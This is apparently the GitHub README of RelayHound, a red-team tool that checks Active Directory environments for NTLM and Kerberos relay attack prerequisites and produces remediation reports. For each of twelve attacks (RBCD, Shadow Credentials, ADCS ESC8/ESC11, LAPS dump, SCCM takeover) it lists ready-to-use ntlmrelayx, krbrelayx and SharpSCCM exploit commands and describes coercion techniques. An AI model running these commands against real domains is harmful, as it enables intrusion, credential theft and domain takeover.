


# RelayHound: Relay Attack Prerequisite Checker

Automated tool to check whether a target Active Directory environment meets the prerequisites for common NTLM and Kerberos relay attacks.

---

## ⚠️ Scope and Intended Use

**RelayHound is an active recon tool. It queries but never writes, relays, or coerces. It does not perform any exploitation.**

Note: RelayHound does make active network connections to target systems. It authenticates against SMB, LDAP, MSSQL and other services to enumerate their configuration. It will appear in authentication logs and generate network traffic. The underlying tools it calls (nxc, impacket, certipy, bloodyAD) have well-known network fingerprints and may trigger EDR, IDS, or SIEM alerts. The --delay and --jitter flags can spread out check timing, but do not obfuscate the traffic itself.

All checks are read-only enumeration queries. No authentication is coerced, no tickets are relayed, no objects are modified, and no payloads are executed. Command suggestions shown in the output (e.g. `printerbug.py`, `ntlmrelayx.py`) are informational text only and are never run by the tool.

This distinction matters in professional engagements where recon and exploitation require separate authorisation. RelayHound falls entirely within the recon phase.

**What RelayHound does:**
- Queries SMB/LDAP/LDAPS/HTTP/MSSQL service state (read-only)
- Checks port reachability
- Reads AD attributes (MachineAccountQuota, DFL, computer objects, ACLs)
- Runs certipy/nxc/bloodyAD in enumeration mode only

**What RelayHound does NOT do:**
- Trigger authentication from any target machine
- Relay any credentials or tickets
- Write to any AD object
- Execute PrinterBug, PetitPotam, or any other coercion tool
- Run ntlmrelayx, krbrelayx, or any relay tool

---

## Installation

**Core dependencies** (installed automatically):

```bash
pip install -r requirements.txt
```

This installs `ldap3`, `rich`, and `impacket`. Enough to run basic checks.

**Optional tools** (recommended for full coverage):

```bash
# netexec: SMB/LDAP/MSSQL checks
apt install netexec

# certipy-ad: ADCS ESC8/ESC11 detection
pip install certipy-ad

# bloodyAD: LDAP ACL and object checks
pip install bloodyad
```

Most checks will fall back gracefully or report SKIP if a tool isn't installed, but coverage will be significantly reduced without them. `nxc` in particular is used across almost every module.

## Quick Start

```bash
# Scan the primary DC only
python relayhound.py -d corp.local --dc-ip 10.10.10.1 -u lowpriv -p password123 -v

# Include member servers and workstations
python relayhound.py -d corp.local --dc-ip 10.10.10.1 -u lowpriv -p password123 --extra-targets 10.10.10.20 --attacker-ip 10.10.10.99 -v

# Full run with ACL scan to identify coercion targets
python relayhound.py -d corp.local --dc-ip 10.10.10.1 -u lowpriv -p password123 --extra-targets 10.10.10.20 --attacker-ip 10.10.10.99 -v --find-relay-targets
```

#### Filtering Modules

```bash
# Run LDAP-based attacks only
python relayhound.py -d north.sevenkingdoms.local --dc-ip 192.168.164.11 -u brandon.stark -p iseedeadpeople --modules rbcd,shadowcreds,laps,acl -v

# Run all ADCS-related modules (ESC8 + ESC11 + Kerberos relay) using group alias
python relayhound.py -d sevenkingdoms.local --dc-ip 192.168.164.10 -u cersei.lannister -p il0vejaime --modules adcs -v

# Run all SCCM modules using group alias
python relayhound.py -d sccm.lab --dc-ip 192.168.163.10 -u carol -p SCCMftw --extra-targets 192.168.163.11-13 --modules sccm -v 

# Mix group aliases and individual modules
python relayhound.py -d corp.local --dc-ip 10.10.10.1 -u lowpriv -p password123 --modules sccm,adcs,smb -v
```

Group aliases expand to: `adcs` → ESC8 + ESC11 + Kerberos relay; `sccm` → TAKEOVER-1/2 + ELEVATE-2.

---

## Recommended Attack Paths

After all checks complete, RelayHound cross-references results across modules to provide a list of complete, actionable attack chains, ordered by impact. Each chain is populated with real values from the scan: IPs, hostnames, CA names, writable computer objects. Commands are ready to run without manual substitution.

Only chains where all required prerequisites are met are shown, ordered by impact.

Each entry includes:
- A command to trigger or capture inbound authentication from a target
- A relay command to redirect that authentication to the target service
- Notes on follow-up steps and impact

Example output:



The Recommended Attack Paths section is included in both the Markdown and HTML reports.

---

## Relay Target Finder (`--find-relay-targets`)

When `--find-relay-targets` is passed, RelayHound performs an additional inbound ACL scan using your enumeration credential. It queries `nTSecurityDescriptor` on computer objects, the domain root, and high-value groups to find which principals have write (or read, for LAPS) rights over valuable AD objects.

This takes a different angle from the rest of the tool. Rather than asking "can I relay _to_ X?", it asks "if I coerce account X into authenticating, which relay attack should I chain it with, and against which target object?" The output is a table of candidates: account, recommended attack, target object, and the specific right that makes it exploitable.



Requires: `impacket` and `ldap3` (both available on Kali by default).

---

## Viability Logic

| Result       | Meaning                                                                     |
| ------------ | --------------------------------------------------------------------------- |
| ✅ VIABLE     | All required prerequisites met and no optional checks failed                |
| ⚠️ PARTIAL   | Required checks pass but one or more optional checks failed or were skipped |
| ❌ NOT VIABLE | At least one required check failed                                          |
| ❓ UNKNOWN    | All checks were skipped or errored                                          |

---

## Usage

```
python relayhound.py [options]

Target:
  -d, --domain              Target domain (e.g. sevenkingdoms.local)    [required]
  --dc-ip                   Primary Domain Controller IP                 [required]
  --dc-ips                  Comma-separated IPs of additional known DCs (e.g. DCs
                            in other domains/forests) so they rank as DC-level
                            targets in attack paths
  --extra-targets           Comma-separated IPs, hostnames, CIDR ranges,
                            or dash ranges (e.g. 10.0.0.1,10.0.0.0/24,10.0.0.10-20)
  --attacker-ip             Your Kali/attacker IP. Used to populate
                            commands in the attack paths output
  --attacker-hostname       Your Kali/attacker hostname. Used to populate
                            commands in the attack paths output
  --targets-file            File with target IPs/ranges, one per line (# for comments)

Credentials:
  -u, --username            Domain username (low-privilege account)      [required]
  -p, --password            Plaintext password         [required unless -H/--hashes]
  -H, --hashes              NTLM hash for pass-the-hash (NT only or LM:NT format)
                                                       [required unless -p/--password]

Options:
  -v, --verbose             Show per-check details in terminal
  --parallel                Run attack checks in parallel (faster)
  --modules LIST            Comma-separated list of module short names to run
                            (e.g. smb,rbcd,adcs). Invalid names print the full
                            list of valid aliases and exit.
  --delay N                 Sleep N seconds between each attack module (default: 0).
                            Also randomises module execution order
  --jitter N                Add up to N seconds of random variation to the delay
                            (default: 0). Requires --delay.
  --timeout N               Network timeout in seconds (default: 10)
  -o, --output FILE         Markdown report path (default:
                            <domain>_ntlm_relay_report.md)
  --output-json FILE        JSON report path (default: <domain>_ntlm_relay_report.json)
  --no-report               Skip writing Markdown and HTML reports
  --no-html                 Skip HTML report (keep Markdown only)
  --no-json                 Skip writing the JSON report
  --relay-list FILE         Save SMB unsigned hosts for ntlmrelayx -tf
  --no-relay-list           Skip writing the relay targets file
  --laps-scope FILE         Save LAPS-managed computer names to this file
  --no-laps-scope           Skip writing the LAPS scope file
  --find-relay-targets      Scan nTSecurityDescriptor ACLs to identify which
                            accounts are worth coercing and for which attack
```

---

## HTML Report

RelayHound generates an HTML report alongside the Markdown output.
The report includes a **Remediation Recommendations** section, making it useful for blue teamers and defenders.

---

## DC Discovery

RelayHound automatically discovers Domain Controllers beyond the `--dc-ip` you specify, including DCs in child domains and other forest partitions. Discovered DCs are shown in the run config panel and check results, and are used throughout all checks to ensure targets are correctly identified as DCs, member servers, or workstations. Recommended attack paths use this to rank attacks against DCs as higher impact than the same attack against a member server or workstation. For most single-forest and parent/child domain topologies this requires no extra flags. `--dc-ips` is still available for edge cases where automatic discovery cannot reach a DC.

---

## Attacks Checked

### 1. NTLM Relay → SMB (secretsdump)

Relay NTLM authentication to SMB on a target where signing is disabled. Allows secretsdump-style extraction of SAM/LSA/NTDS.

| Check                             | Required    | Method                            |
| --------------------------------- | ----------- | --------------------------------- |
| SMB signing disabled on ≥1 target | ✅           | `nxc smb` — parse `signing:False` |
| NTLM authentication enabled       | ✅           | `nxc smb` — check auth success    |
| Non-DC SMB target reachable       | ⚠️ Optional | TCP port 445 check                |
| Null/guest session allowed        | ⚠️ Optional | `nxc smb -u '' -p ''`             |

RelayHound automatically saves a list of SMB unsigned hosts to `<domain>_relay_targets.txt` (or a custom path via `--relay-list`). This file can be passed directly to ntlmrelayx.

**Exploit:** `ntlmrelayx.py -tf relay_targets.txt -smb2support`

---

### 2. NTLM Relay → LDAP (RBCD)

Relay NTLM to LDAP to write `msDS-AllowedToActOnBehalfOfOtherIdentity` on a target computer object, enabling Resource-Based Constrained Delegation.

| Check | Required | Method |
|-------|----------|--------|
| LDAP signing not enforced | ✅ | `nxc ldap --module ldap-checker` |
| LDAP channel binding not required | ✅ | `nxc ldap --module ldap-checker` |
| Domain functional level ≥ 2012 (RBCD support) | ✅ | ldap3 `msDS-Behavior-Version` |
| Writable computer object exists | ✅ | `bloodyAD get writable --otype COMPUTER` |
| MachineAccountQuota > 0 | ⚠️ Optional¹ | `nxc ldap --module maq` / ldap3 |
| WebClient running on target | ⚠️ Optional | `nxc smb --module webdav` |

¹ MAQ = 0 is a soft blocker. RBCD remains viable if you already control an existing machine account in the domain.

**Exploit:** `ntlmrelayx.py -t ldaps://<dc> --delegate-access`

---

### 3. NTLM Relay → LDAP (Shadow Credentials)

Relay NTLM to LDAP to write `msDS-KeyCredentialLink` on a target computer object, enabling certificate-based authentication as that account.

| Check | Required | Method |
|-------|----------|--------|
| LDAP signing not enforced | ✅ | `nxc ldap --module ldap-checker` |
| LDAP channel binding not required | ✅ | `nxc ldap --module ldap-checker` |
| Writable computer object exists | ✅ | `bloodyAD get writable --otype COMPUTER` |
| Domain functional level ≥ 2016 | ✅ | ldap3 `msDS-Behavior-Version` |
| DC has KDC certificate for PKINIT | ✅ | `certipy-ad find -stdout` |
| ADCS present for UnPAC-the-hash | ⚠️ Optional | `nxc ldap --module adcs` / certipy |
| WebClient running on target | ⚠️ Optional | `nxc smb --module webdav` |

**Exploit:** `ntlmrelayx.py -t ldaps://<dc> --shadow-credentials --shadow-target <computer>`

---

#### 4. NTLM Relay → ADCS (ESC8)

Relay to AD CS web enrollment (certsrv) over HTTP. Allows enrolling a certificate on behalf of the relayed account.

| Check | Required | Method |
|-------|----------|--------|
| AD CS deployed in domain | ✅ | `nxc ldap --module adcs` / certipy / ldap3 |
| Web enrollment HTTP endpoint reachable | ✅ | TCP port 80 + HTTP GET `/certsrv/` |
| certsrv uses NTLM auth | ✅ | `WWW-Authenticate: NTLM` header check |
| Enrollable template with Client Authentication EKU | ✅ | certipy / ldap3 `pKIExtendedKeyUsage` |
| CA Request Disposition set to Issue | ✅ | certipy `Request Disposition` field |
| certipy confirms ESC8 | ⚠️ Optional | `certipy-ad find -vulnerable` |
| HTTPS certsrv EPA not enforced | ⚠️ Optional | Manual registry check |
| SMB coercion methods available | ⚠️ Optional | `nxc smb --module coerce_plus` (PrinterBug, PetitPotam, DFSCoerce, ShadowCoerce, MSEven) |

**Exploit:** `ntlmrelayx.py -t http://<ca>/certsrv/certfnsh.asp --adcs --template DomainController`

---

### 5. NTLM Relay → ADCS (ESC11 / RPC)

Relay NTLM over RPC to the ICPR interface on the CA server, bypassing the need for HTTP web enrollment.

| Check | Required | Method |
|-------|----------|--------|
| AD CS deployed in domain | ✅ | `nxc ldap --module adcs` / certipy |
| CA RPC port reachable (TCP 135 + dynamic) | ✅ | TCP check |
| `IF_ENFORCES_ENCRYPT_ICPR` flag not set | ✅ | certipy / registry check |
| Enrollable template with Client Authentication EKU | ✅ | certipy / ldap3 `pKIExtendedKeyUsage` |
| CA Request Disposition set to Issue | ✅ | certipy `Request Disposition` field |
| certipy confirms ESC11 | ⚠️ Optional | `certipy-ad find -vulnerable` |
| SMB coercion methods available | ⚠️ Optional | `nxc smb --module coerce_plus` (PrinterBug, PetitPotam, DFSCoerce, ShadowCoerce, MSEven) |

**Exploit:** `ntlmrelayx.py -t rpc://<ca-host> -rpc-mode ICPR -icpr-ca-name '<ca-name>' --template DomainController`

---

### 6. NTLM Relay → MSSQL

Relay NTLM to SQL Server. Allows `xp_cmdshell` execution depending on privileges of the relayed account.

| Check                                      | Required    | Method                                               |
| ------------------------------------------ | ----------- | ---------------------------------------------------- |
| MSSQL port reachable (TCP 1433)            | ✅           | TCP check + UDP 1434 SQL Browser                     |
| MSSQL accepts Windows/NTLM auth            | ✅           | `nxc mssql`                                          |
| SQL user has direct sysadmin privilege     | ⚠️ Optional | `nxc mssql -q "SELECT IS_SRVROLEMEMBER('sysadmin')"` |
| Impersonation path to sysadmin exists      | ⚠️ Optional | `nxc mssql -q` on `sys.server_permissions`           |
| Linked servers exist                       | ⚠️ Optional | `nxc mssql -q` on `sys.servers`                      |
| WebClient running on target                | ⚠️ Optional | `nxc smb --module webdav`                            |
| xp_dirtree coercion available              | ⚠️ Optional | SQL access confirmed                                 |
| MSSQL service account (SPN enumeration)    | ⚠️ Optional | `impacket-GetUserSPNs` / ldap3                       |
| High-value users logged on to MSSQL server | ⚠️ Optional | `nxc smb --loggedon-users` (requires local admin)    |

**Exploit:** `ntlmrelayx.py -t mssql://<host> -i`

---

### 7. Kerberos Relay → ADCS (krbrelayx + Forshaw DNS)

Relay Kerberos authentication to ADCS using krbrelayx. Three coercion paths are supported. ADIDNS write access is only required for path 1.

**Path 1 — Forshaw DNS trick:** Add a Forshaw-encoded ADIDNS record pointing to attacker, coerce DC auth to that hostname.

**Path 2 — mitm6 / DHCPv6 poisoning:** Poison DHCPv6 DNS to intercept Kerberos auth. No ADIDNS write needed. Unreliable when ADCS and DC are on the same host.

**Path 3 — Kerberos relay over SMB:** Pass the Forshaw-encoded string directly as the coercion target argument. No DNS record registration needed.

| Check | Required | Method |
| -------------------------------------- | ----------- | ------------------ |
| AD CS deployed with HTTP enrollment | ✅ | certipy / ldap3 |
| certsrv accepts Kerberos auth | ✅ | `WWW-Authenticate: Negotiate` header |
| DomainController / Machine template available | ✅ | certipy |
| HOST SPN set on target machine account | ✅ | ldap3 |
| ADIDNS writable by domain user | ⚠️ Optional¹ | ldap3 DNS zone query |
| Coercion method available (PrinterBug / PetitPotam) | ⚠️ Optional | `nxc smb --module spooler` / RPC port check |
| SMB coercion methods available | ⚠️ Optional | `nxc smb --module coerce_plus` |
| WebClient running on target | ⚠️ Optional | `nxc smb --module webdav` |
| DCOM/RPC reachable on target | ⚠️ Optional | TCP port 135 check |
| DC target in scope | ⚠️ Optional | DC classification |

¹ Required for path 1 (Forshaw DNS trick) only. Paths 2 and 3 do not require ADIDNS write access.

**Exploit:** `krbrelayx.py --target http://<ca>/certsrv/`

---

### 8. NTLM Relay → LDAP (LAPS Password Dump)

Relay NTLM to LDAP to read `ms-Mcs-AdmPwd` from computer objects where the relayed account has read access.

| Check | Required | Method |
|-------|----------|--------|
| LAPS deployed in domain | ✅ | `nxc ldap --module laps` |
| LDAP signing not enforced | ✅ | `nxc ldap --module ldap-checker` |
| Relayed account can read LAPS passwords | ✅ | `bloodyAD get writable` |

**Exploit:** `ntlmrelayx.py -t ldap://<dc> --dump-laps`

---

### 9. NTLM Relay → LDAPS (Add Computer Account)

Relay NTLM to LDAPS to add a new computer account to the domain (requires MachineAccountQuota > 0).

| Check | Required | Method |
|-------|----------|--------|
| LDAPS reachable (port 636) | ✅ | TCP check |
| LDAPS channel binding not enforced | ✅ | `nxc ldap --module ldap-checker` |
| MachineAccountQuota > 0 | ✅ | `nxc ldap --module maq` / ldap3 |

**Exploit:** `ntlmrelayx.py -t ldaps://<dc> --add-computer`

---

### 10. NTLM Relay → LDAPS (ACL Abuse)

Relay NTLM to LDAPS to modify ACLs on AD objects — granting DCSync rights, adding group members, or writing to computer objects.

| Check | Required | Method |
|-------|----------|--------|
| LDAPS reachable (port 636) | ✅ | TCP check |
| LDAPS channel binding not enforced | ✅ | `nxc ldap --module ldap-checker` |
| Writable high-value AD objects exist | ✅ | `bloodyAD get writable` |
| High-value groups with weak ACLs | ⚠️ Optional | ldap3 |

**Exploit:** `ntlmrelayx.py -t ldaps://<dc> --escalate-user <user>`

---

### 11. NTLM Relay → SCCM (TAKEOVER-1 / TAKEOVER-2)

Coerce NTLM authentication from the SCCM site server machine account and relay it to the remote site database. The site server's machine account has `db_owner` on the site database by default, which allows granting any domain account the SCCM "Full Administrator" role — giving arbitrary code execution on all managed SCCM clients as SYSTEM.

Two relay paths to the same outcome:
- **TAKEOVER-1:** Relay to MSSQL (TCP 1433) on the site database server
- **TAKEOVER-2:** Relay to SMB (TCP 445) on the site database server (requires SMB signing disabled)

Valid coercion targets: primary site server (TAKEOVER-x.1), SMS Provider if on separate host (TAKEOVER-x.2), passive site server in HA deployments (TAKEOVER-x.3).

| Check | Required | Method |
|-------|----------|--------|
| SCCM detected in AD | ✅ | ldap3 — System Management container + GenericAll ACE |
| Site server identifiable and reachable | ✅ | ldap3 + TCP port check (445/135) |
| Site database on separate host from site server | ✅ | ldap3 hostname comparison |
| At least one relay path viable (MSSQL or SMB) | ✅ | TCP 1433 + SMB signing check |
| Site DB MSSQL reachable and accepts NTLM | ⚠️ Optional | TCP 1433 + `nxc mssql` |
| SMB signing disabled on site DB | ⚠️ Optional | `nxc smb` signing check |
| Coercion available on site server / SMS Provider | ⚠️ Optional | `nxc smb --module spooler` / RPC port 135 |
| MSSQL EPA not enforced | ⚠️ Optional | TCP 1433 reachable (EPA not remotely verifiable) |

Site database hostname is discovered automatically via MSSQLSvc SPN lookup in AD (no additional tools required).

**Exploit (TAKEOVER-1):** `ntlmrelayx.py -t mssql://<site-db> -socks -smb2support`

**Exploit (TAKEOVER-2):** `ntlmrelayx.py -t smb://<site-db> -socks -smb2support`

---

### 12. NTLM Relay → SCCM (ELEVATE-2)

Trigger SCCM's automatic client push installation to coerce NTLM authentication from the site server's push installation accounts (or machine account as fallback), then relay to a target. Client push accounts typically have local admin across all managed clients. If the push account is a Domain Admin or falls back to the site server machine account, impact escalates to TAKEOVER-1/2 territory.

Coercion mechanism: register a fake device via the management point using SharpSCCM (`invoke client-push`). No Linux equivalent exists — must be run from a Windows host.

| Check | Required | Method |
|-------|----------|--------|
| Management point reachable (HTTP/HTTPS) | ✅ | TCP port 80/443 check |
| Automatic client push + NTLM fallback enabled | ⚠️ Optional¹ | Not remotely detectable |
| Unsigned SMB relay targets available (ELEVATE-2.1) | ⚠️ Optional | `nxc smb` signing check |
| ADIDNS writable by domain user (ELEVATE-2.2 HTTP) | ⚠️ Optional | ldap3 DNS zone query |
| WebClient running on site server | ⚠️ Optional | `nxc smb --module webdav` |

¹ Automatic client push installation, automatic site assignment, and NTLM fallback cannot be confirmed remotely — only visible in the SCCM console or by attempting the attack. Both are enabled by default in most deployments.

**Exploit:** `SharpSCCM.exe invoke client-push -mp <mp-host> -sc <site-code> -t <attacker-ip>`

---

## External Tools Used

The checker calls these tools if installed. Gracefully falls back or skips if not found.

| Tool | Install | Used for |
|------|---------|----------|
| `nxc` / `netexec` | `apt install netexec` | SMB/LDAP/MSSQL/WebDAV checks, `coerce_plus` coercion detection |
| `certipy-ad` | `pip install certipy-ad` | ADCS ESC8/ESC11 detection |
| `bloodyAD` | `pip install bloodyad` | LDAP ACL/object checks |
| `impacket-GetUserSPNs` | pre-installed on Kali | MSSQL SPN enumeration |
| `impacket` (library) | pre-installed on Kali | ACL parsing (`--find-relay-targets`) |
| `ldap3` | `pip install ldap3` | Direct LDAP queries |
| `dnstool.py` | krbrelayx repo | Kerberos relay DNS check |

---

## Architecture

```
relayhound.py                    Entry point, argparse, orchestrator
ntlm_relay_checker/
├── config.py                    TargetEnv + Credential dataclasses
├── engine.py                    run_all_checks(), parallel runner,
│                                run_relay_target_finder()
├── output.py                    Rich terminal table, Markdown + HTML reports,
│                                relay target summary renderer
├── utils.py                     Shared helpers and reusable check classes
│                                (CoercionAvailabilityCheck, future consolidation)
└── checks/
    ├── base.py                  BaseCheck, CheckResult, AttackResult, Status
    ├── smb.py                   NTLM Relay → SMB
    ├── ldap_rbcd.py             NTLM Relay → LDAP (RBCD)
    ├── ldap_shadowcreds.py      NTLM Relay → LDAP (Shadow Credentials)
    ├── adcs.py                  NTLM Relay → ADCS (ESC8)
    ├── esc11.py                 NTLM Relay → ADCS (ESC11 / RPC)
    ├── mssql.py                 NTLM Relay → MSSQL
    ├── kerberos.py              Kerberos Relay → ADCS (krbrelayx)
    ├── laps.py                  NTLM Relay → LDAP (LAPS)
    ├── ldaps_addcomputer.py     NTLM Relay → LDAPS (Add Computer)
    ├── ldaps_aclabuse.py        NTLM Relay → LDAPS (ACL Abuse)
    ├── sccm_takeover.py         NTLM Relay → SCCM (TAKEOVER-1/2)
    ├── sccm_elevate2.py         NTLM Relay → SCCM (ELEVATE-2)
    └── relay_target_finder.py   Inbound ACL scan (--find-relay-targets)
```

---

## Notes

- Designed for use with a **single low-privilege domain account**
- WARN/SKIP checks should be verified manually
- Exit code: `0` if any attack is VIABLE/PARTIAL, `1` if none are viable

---

### Legal Disclaimer

This tool is intended for **authorised security testing and educational purposes only**.

Use of RelayHound against systems you do not own or do not have explicit written permission to test is unethical and may even be illegal. The authors accept no liability for any misuse or damage caused by this tool.
